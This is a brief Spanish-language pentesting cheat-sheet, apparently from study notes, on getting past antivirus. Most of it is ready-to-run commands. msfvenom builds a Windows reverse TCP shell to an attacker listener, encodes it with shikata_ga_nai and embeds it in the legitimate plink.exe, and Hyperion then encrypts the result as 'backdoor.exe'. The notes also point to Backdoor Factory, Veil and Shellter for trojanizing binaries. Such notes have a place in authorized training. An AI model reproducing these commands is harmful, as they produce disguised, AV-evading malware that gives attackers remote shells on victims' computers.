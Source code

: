 ```yaml
---
title: bypassing AV
category: exploiting
order: 1
---
```



# 1 BYPASSING ANTIVIRUS
---

cambiamos la estructura binaria para que cambie la firma y los antivirus no lo vean


## Opcion 1 usamos un encoder
```
  msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

## Opcion 2 Lo embebemos en un ejecutable no malicioso
```
   msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -e x86/shikata_ga_nai -i  9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```


## Opcion 3 Encriptarlo  

elegimos el payload embebido y encodeado lo copiamos a un lugar y usamos hyperion
```
  root@kali: cp shell_reverse_msf_encoded_embedded.exe backdoor.exe
  root@kali: cp /usr/share/windows-binaries/hyperion-1.0.zip .
  root@kali: unzip Hyperion.zip
  root@kali: cd HYperion
  root@kali:hyperion# i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe
  root@kali:hyperion# cp -p /usr/lib/gcc/i686-w64-mingnw32/6.1-win32/libgc_s_sjlj-1.dll .
  root@kali:hyperion# cp -p /usr/lib/gcc/i686-w64-mingw32/6.1-win32/libstdc++-6.dll .
  root@kali: wine hyperion.exe ../backdor.exe ../crypted.exe
```


## opcion 4 ideal:
 Armar uno a manopla idem con payloads

### otros
```
https://github.com/secretsquirrel/the-backdoor-factory
https://www.veil-framework.com/
```

# SHELTER
---
lo instalamos en kali le pasamos un binario y le mete un payload que queramos.
